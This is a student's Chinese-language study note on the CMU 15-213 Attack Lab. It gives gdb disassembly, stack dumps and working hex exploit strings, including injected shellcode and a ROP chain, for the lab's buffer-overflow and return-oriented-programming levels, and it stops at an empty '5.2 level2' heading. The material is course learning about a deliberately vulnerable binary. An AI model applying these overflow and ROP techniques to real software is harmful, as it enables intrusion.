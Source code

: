 # Lab03 attack

标签（空格分隔）： 学习笔记

---

Lab03帮助学生理解缓冲区溢出，感觉要比lab02有用多了

### step1 读题
读题实际上是比较难的一个步骤。可以说大部分时间在理解题目，当题目理解好了，剩下的就不难了。
Hex2raw的意思是将你输入的十六进制数字转化成真正的十六进制
花了几天时间才搞清楚ctarget是无法接受字符串输入的

## 4 Part I: Code Injection Attacks
### 4.1 level 1

这个是最简单的缓冲区溢出，也就是栈溢出，攻击的方式就是直接在ret指令执行之前，替换rsp内存地址处的值为你想要跳转到的函数地址。
我的思路：
想要替换rsp处内存中的值，我们就首先需要找到rsp的值。

    00000000004017a8 <getbuf>:
      4017a8:	48 83 ec 28          	sub    rsp,0x28
      4017ac:	48 89 e7             	mov    rdi,rsp
      4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
      4017b4:	b8 01 00 00 00       	mov    eax,0x1
      4017b9:	48 83 c4 28          	add    rsp,0x28
      4017bd:	c3                   	ret    
      4017be:	90                   	nop
      4017bf:	90                   	nop
      
我们首先找到getbuf函数，使用gdb在0x4017bd处打一个断点。让程序运行到这个位置。查看rsp的值为0x5561dca0.  
进一步查看内存中的值，发现这个栈顶的值为0x0000000000401976。  
就是test函数中  401971:	e8 32 fe ff ff       	call   4017a8 <getbuf> 下面的一个指令的地址  
 401976:	89 c2                	mov    edx,eax

    (gdb) x/4xg 0x5561dca0
    0x5561dca0:     0x0000000000401976      0x0000000000000009
    0x5561dcb0:     0x0000000000401f24      0x0000000000000000

我们只要将输入足够长的字符串，把这个内存地址的值挤掉，变成touch1的函数地址即可。  
在gets函数中的这个指令是存储字符串的

      401a5a:	88 03                	mov    BYTE PTR [rbx],al

rbx的值为0x5561dc78
此处的内存地址中的内容为：

    (gdb) x/6xg 0x5561dc78
    0x5561dc78:     0x0000ab9078563412      0x0000000000000000
    0x5561dc88:     0x0000000000000000      0x0000000000000000
    0x5561dc98:     0x0000000055586000      0x0000000000401976

大概字符串的长度是64*5 bits就是8*5个字节，就能覆盖到0x401976。所以最后答案为

    12 34 56 78 90 ab cd ef ef ef
    12 34 56 78 90 ab cd ef ef ef
    12 34 56 78 90 ab cd ef ef ef
    12 34 56 78 90 ab cd ef ef ef
    c0 17 40 00 00 00 00 00
    

Continuing. Type string:Touch1!: You called touch1() Valid solution for level 1 with target ctarget PASS: Would have posted the following:
    user id bovik
    course  15213-f15
    lab     attacklab
    result  1:PASS:0xffffffff:ctarget:1:12 34 56 78 90 AB CD EF EF EF 12 34 56 78 90 AB CD EF EF EF 12 34 56 78 90 AB CD EF EF EF 12 34 56 78 90 AB CD EF EF EF C0 17 40 00 00 00 00 00  [Inferior 1 (process 11388) exited normally]
    
### 4.2 level 2
这个其实也是栈溢出的原理，只不过在ret到touch2之前必须给传一个参数给edi。这个很纠结，起初我以为是不能执行栈上的数据的，后来网上搜了一下发现这个是可以执行stack中的数据的。
如果可以执行stack中的数据，那么可以操作的空间就大了很多。两次ret可以解决，第一次ret到stack上执行指令，然后操作rsp，第二次ret到touch2，这是我第一次尝试的str：

    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    ec 17 40 00 00 00 00 00
    48 c7 c7 fa 97 b9 59 48
    83 ec 20 c3 00 00 00 00
    90 dc 61 55 00 00 00 00
    
但是导致了segment fault。后来网上看了，是因为rsp的值不能改，也就是说，ret到touch2以后rsp和test中的必须保持一致，但是我一直搞不清楚，rsp更改8个字节怎么就能导致段错误呢？
后来修改过stack中的指令，增加了一个pushq，使得进入touch2以后rsp的值不改变，这样就过了。

    (gdb) c
    Continuing.
    Valid solution for level 2 with target ctarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:ctarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 EC 17 40 00 00 00 00 00 48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 90 DC 61 55 00 00 00 00 
    [Inferior 1 (process 46846) exited normally]
    
### 4.3 level 3
这个题目和上一个题目主要的区别就是需要传一个字符串地址，重点在于字符串的保存，我选择保存在test栈中，最后结果如下：

    00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00  
    b8 dc 61 55 00 00 00 00
    35 39 62 39 39 37 66 61 
    00 00 00 00 00 00 00 00   
    48 c7 c7 a8 dc 61 55
    68 fa 18 40 00 
    c3 00 00 00 

    (gdb) 
    Continuing.
    Type string:Touch3!: You called touch3("59b997fa")
    Valid solution for level 3 with target ctarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:ctarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 B8 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00 00 00 00 00 00 00 00 48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 
    [Inferior 1 (process 346910) exited normally]
    
### 5.1 level 1
这个就是现在大多数程序开启堆栈保护机制以后，堆栈随机化且无法执行堆栈中的内容，所以我们需要在text段中找指令去执行。

    => 0x5561dc90:  mov    rdi,0x59b997fa
       0x5561dc97:  push   0x4017ec
       0x5561dc9c:  ret    
       0x5561dc9d:  add    BYTE PTR [rax],al
       0x5561dc9f:  add    BYTE PTR [rax+0x5561dc],dl

这个是解决4.2的问题的时候堆栈中的代码。因为这些代码无法被执行，所以我们需要在text中找。
这是得到的答案，其实就是把4.2中的代码在text段中找出来，拼起来，最后调用touch2。但是要记得传一个参数给rdi，我们这里使用pop指令

    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    19 2b 40 00 00 00 00 00 
    fa 97 b9 59 00 00 00 00 
    ec 17 40 00 00 00 00 00 

### 5.2 level2

